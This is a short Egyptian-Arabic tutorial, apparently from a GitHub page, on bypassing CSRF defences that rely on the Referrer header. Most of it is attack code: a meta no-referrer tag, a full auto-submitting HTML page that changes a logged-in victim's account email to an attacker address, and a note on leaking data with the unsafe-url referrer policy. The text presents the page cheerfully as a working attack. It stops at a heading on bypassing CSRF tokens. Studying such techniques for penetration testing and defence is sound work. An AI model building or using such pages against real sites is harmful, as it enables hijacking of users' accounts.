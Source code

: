 ## **🔹 حذف Referrer Header عشان الهجوم يشتغل**

🔹 بعض المطورين بيظنوا إن أي طلب لازم يكون فيه `Referrer Header`، وده ممكن يمنع تنفيذ بعض الهجمات.
🔹 **لكن ممكن نخدع النظام ونمنع إرسال الهيدر ده باستخدام `meta no-referrer`.**

✅ **مثال بسيط لإلغاء الـ Referrer:**
```html
<meta name="referrer" content="no-referrer">
```
🔹 **كده المتصفح مش هيبعت `Referrer Header`، فالهجوم ممكن يتم بدون مشاكل!** 😈

---

## **🔹 استغلال CSRF Bypass باستخدام No-Referrer**

✅ **كود HTML بسيط ينفذ هجوم CSRF بدون Referrer:**
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <!-- منع إرسال Referrer Header -->
    <meta name="referrer" content="no-referrer">
</head>
<body>
    <form action="https://app.example.com/api/profile/update" method="POST">
        <input type="hidden" name="new_email" value="attacker@example.com">
        <input type="submit" value="Submit request">
    </form>
    <script>
        history.pushState('', '', '/');
        document.forms[0].submit();
    </script>
</body>
</html>
```
🔹 **بكده، الطلب هيتبعت بدون Referrer، ولو الموقع بيعتمد عليه كحماية، فالهجوم هينجح!** 🚀🔥

---
## **تجاوز CSRF Token و Referrer بالمصري**

🔹 **التحايل على Referrer باستخدام Unsafe-URL**

✅ **استخدام `<meta name="referrer" content="unsafe-url">` بيخلي المتصفح يبعت الـ Referrer حتى لو كان الرابط غير آمن.**
```html
<meta name="referrer" content="unsafe-url" />
```
🔹 **ده ممكن يسرّب بيانات حساسة في الـ URL للطلبات غير الآمنة (HTTP).**

---

## **🔹 طرق تجاوز CSRF Token**

